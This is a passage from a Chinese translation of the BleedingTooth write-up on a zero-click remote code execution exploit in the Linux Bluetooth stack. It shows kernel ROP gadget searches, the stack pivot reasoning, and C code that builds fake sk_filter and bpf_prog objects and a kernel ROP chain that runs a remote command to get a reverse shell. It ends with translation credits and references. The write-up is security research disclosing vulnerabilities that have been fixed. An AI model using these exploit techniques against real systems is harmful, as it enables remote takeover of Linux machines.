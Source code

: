 ```shell
$ cat gadgets.txt | grep ": mov rsp.*ret"
0xffffffff8109410c : mov rsp, qword ptr [rip + 0x15bb0fd] ; pop rbx ; pop rbp ; ret
0xffffffff810940c2 : mov rsp, qword ptr [rsp] ; pop rbp ; ret
0xffffffff8108ef0c : mov rsp, rbp ; pop rbp ; ret
```

也许会有一些像 `push rsi ; pop rsp ; ret` 这样的？

```shell
$ cat gadgets.txt | grep ": push rsi.*pop rsp.*ret"
0xffffffff81567f46 : push rsi ; adc al, 0x57 ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff8156a128 : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret
0xffffffff81556cad : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81c02ab5 : push rsi ; lcall [rbx + 0x41] ; pop rsp ; pop rbp ; ret
0xffffffff8105e049 : push rsi ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81993887 : push rsi ; xchg eax, ecx ; lcall [rbx + 0x41] ; pop rsp ; pop r13 ; pop rbp ; ret
```

太好了，有很多 gadgets 可以用。有趣的是，所有 gadgets 都解引用 RBX+0x41 ，这很可能是常用指令或指令序列的一部分。具体来说，由于指令在 x86 中可以从任何字节开始，因此它们可以根据开始字节位置进行不同的解释。RBX+0x41 的解引用实际上可能会阻碍我们使用 gadgets ——也就是说，如果 RBX 在执行 `bpf_func()` 时不包含可写内存地址，我们就会在执行 ROP 链之前陷入 painc 。在我们的例子中，幸运的是，RBX 指向结构 `amp_mgr` 对象，并且如果偏移量 0x41 处的字节被更改，就不会有问题。

当选择 `stack pivot gadget` 作为 `bpf_func()` 的函数指针并触发它时， RSI 的值将被压入栈中，然后从栈中弹出，最后赋值给 RSP 。换句话说，堆栈指针将指向我们的有效负载，一旦 RET 指令被执行，我们的 ROP 链将启动。

```c
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
  // overwritten. Therefore, the argument should be located after the ROP chain.
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```

有了这些，我们终于实现了RCE。为了调试我们的 `stack pivot` 并看看我们是否成功，我们可以设置 `(uint64_t)&data[0x360]=0x41414141` 并观察一个可控的 painc。

### 内核 ROP 链执行

现在，我们可以编写一个大的 ROP 链来检索和执行 C 负载，也可以编写一个小的 ROP 链来运行任意命令。为了进行 POC 证明，我们已经满足于使用反向 shell 的条件,因此执行一个命令就足够了。受 [CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem][19]（利用 Linux 中的 V4L2 子系统内核漏洞）中描述的ROP链的启发我们将构建一个链，用 `/bin/bash -c /bin/bash` 之后，蓝牙将不再工作。在更复杂的攻击中，我们将继续执行。


[#]: subject: "BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution"
[#]: via: "https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html"
[#]: author: "Andy Nguyen (theflow@)"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://github.com/google/syzkaller
[2]: https://www.armis.com/research/bleedingbit
[3]: https://knobattack.com
[4]: https://www.armis.com/blueborne
[5]: https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag
[6]: https://youtu.be/qPYrLRausSw
[7]: http://www.bluez.org
[8]: https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00435.html
[9]: https://github.com/google/security-research/security/advisories/GHSA-ccx2-w2r4-x649
[10]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=a2ec905d1e160a33b2e210e45ad30445ef26ce0e
[11]: htts://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
[12]: https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq
[13]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=eddb7732119d53400f48a02536a84c509692faa8
[14]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=f19425641cb2572a33cb074d5e30283720bd4d22
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[16]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b560a208cda0297fef6ff85bbfd58a8f0a52a543
[17]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/extract-vmlinux
[18]: https://github.com/JonathanSalwan/ROPgadget
[19]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[20]: http://www.bluez.org/development/credits
[21]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=f19425641cb2572a33cb074d5e30283720bd4d22
[22]: https://git.kernel.org/pub/scm/linux/kernel/git/next/linux-next.git/commit/net/bluetooth?id=2bd056f550808eaa2c34a14169c99f81ead083a7
[23]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[24]: https://github.com/google/syzkaller/commits?author=TheOfficialFloW
[25]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b50dc237ac04d499ad4f3a92632470a9eb844f7d
[26]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=cafd472a10ff3bccd8afd25a69f20a491cd8d7b8
[27]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=51c19bf3d5cfaa66571e4b88ba2a6f6295311101